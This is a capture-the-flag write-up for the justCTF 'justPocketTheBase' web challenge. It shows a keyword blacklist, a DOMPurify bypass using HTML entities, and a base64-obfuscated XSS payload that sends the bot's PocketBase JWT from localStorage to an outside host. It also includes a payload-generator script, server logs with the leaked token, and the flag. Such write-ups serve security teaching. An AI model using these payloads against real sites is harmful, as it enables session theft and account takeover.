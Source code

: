 # justPocketTheBase

## Description
```
The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

-http://justpocketthebase.web.jctf.pro
-https://s3.cdn.justctf.team/c5536ebc-945a-4fa7-af34-f064b29916d0/justpocketthebase_docker.tar.gz
```

## Writeup

> [!NOTE]
> Credit to [Profiluefter](https://github.com/profiluefter) and [lavish](https://github.com/lavish) who worked together with me on this challenge.

Starting off by taking a look at the website before inspecting the provided code. <br/>
After creating an account we are able to create plants which will be stored in the application and can be accessed via `/view-plant?id=[ID]`. We can pass a title and an image to create such an object. <br/>
Custom character-blacklist:  <br/>
```js
let blacklist = [
	'window',
	'document',
	'cookie',
	'fetch',
	'navigator',
	'sendbeacon',
	'+',
	'_',
	'script',
	'!',
	'"',
	'#',
	'%',
	"'",
	'(',
	')',
	'*',
	'+',
	',',
	'-',
	'/',
	':',
	'?',
	'@',
	'[',
	']',
	';'
];

const sanitizedTitle = DOMPurify.sanitize(plant.title);
const newTitleElement = document.createElement('div');
newTitleElement.classList.add('title');
newTitleElement.innerHTML = sanitizedTitle;
const safe = newTitleElement.innerText;
try {
        if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
		throw new Error('not safe!!!');
	}
	title.innerHTML = safe;
} catch (err) {
	window.location.href = '/';
}
```

The `dompurify` can be bypassed using [HTML-Entity-Characters](https://html.com/character-codes/) by simply encoding `<` and `>`. <br/>

It's possible to execute XSS via the `title` of a new plant by exchanging **()** with **``**. <br/>
```js
&lt;img src=1 onerror=alert`1`&gt;
// &lt; == <
// &gt; == >
```

Using [PortSwigger-Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#img-tag-with-base64-encoding) we are able to simply execute javascript and bypass the `custom-blacklist`. <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
```

Making a script to enchance efficiency: <br/>
```py
import base64

payload = 'JAVASCRIPT-PAYLOAD'

print(f'&lt;img src=1 onerror=location=atob`{base64.b64encode(bytes(f"javascript:{payload}", "utf-8"))}`&gt;')
```

Leak localstorage which contains the JWT of the bot: <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;

// fetch(`https://aryt3.dev/${localStorage.getItem("pocketbase_auth")}`)
```

Server Logs after reporting the webpage: <br/>
```
167.71.14.123 - - [15/Jun/2024:13:54:43 +0200] "GET /%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D HTTP/1.1" 502 559 "http://localhost/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36"
```

URL-Decoded:
```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjI2OTcsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.hSvcypOCNSsIYeXJ-JZE4H7vWnt7UFvrzAoMBkxwVp0","model":{"avatar":"","collectionId":"_pb_users_auth_","collectionName":"users","created":"2024-06-15 10:52:23.378Z","email":"","emailVisibility":false,"id":"ebm7wofy99nmb4b","name":"","updated":"2024-06-15 10:52:23.378Z","username":"flag","verified":false}}
```

Having obtained the whole localstorage-item `pocketbase_auth`, we can switch ours with this one. <br/>
After that we can access the post with the `flag-image`. <br/>
Afterwards we can inspect the image in the `admin-post` which reveals the flag and concludes this writeup. <br/>
```sh
$ exiftool flag_gygEshYymV.png 
ExifTool Version Number         : 12.76
File Name                       : flag_gygEshYymV.png

---------------------------------------------------------

Artist                          : justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
```# justPocketTheBase